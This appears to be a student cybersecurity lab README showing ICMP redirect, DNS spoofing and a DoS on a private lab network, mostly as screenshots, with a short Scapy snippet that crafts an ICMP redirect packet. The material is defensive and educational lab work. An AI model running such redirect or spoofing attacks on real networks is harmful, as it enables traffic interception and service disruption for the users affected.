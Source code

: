 ## ICMP Redirect:

```Victim Machine 10.211.56.5```

```Attacker Machine 10.211.56.4```

Add Victim IP to target 1
Add Gateway to target 2

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/71ab3471-1e49-4c52-85ca-34f939e9a20c">


<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/a3e2f08b-c3ca-49f0-9566-3335fd0019fd">

ICMP Redirect:

<img width="1281" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/868299bb-82e2-4044-99df-0d1e2e974e09">

<img width="1301" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/9ebdb335-4a13-4c4e-a3b3-64b009eb7883">


ICMP_redirect python code


from scapy.all import *

Craft ICMP Redirect packet
icmp_redirect = Ether() / IP(dst="victim_ip") / ICMP(type=5, code=1, gw="gateway_ip")

Send ICMP Redirect packet
sendp(icmp_redirect, iface="your_network_interface")

<img width="844" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/b1457468-e692-48b3-b56e-77e3746cbc94">


ICMP Redirect capture in wireshark

<img width="1285" alt="image" src="https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/cbd98731-bf75-4ee2-b415-a74893ff4cb3">

DNS Spoofing

![image](https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/529ed7b9-9229-4543-8a1a-a9fcb2e4fc7f)

![image](https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/cbca4c02-5b43-400e-bb30-928cffc213b7)

![image](https://github.com/SantoshKumarP1412/Cybersecurity-Lab/assets/140537888/97f01474-c45c-4326-a7cf-2026b536a85c)

Dos Spoofing

Start dos_attack extension, then we can see that packets are also redirected and www.amrita.edu website will not be loaded


```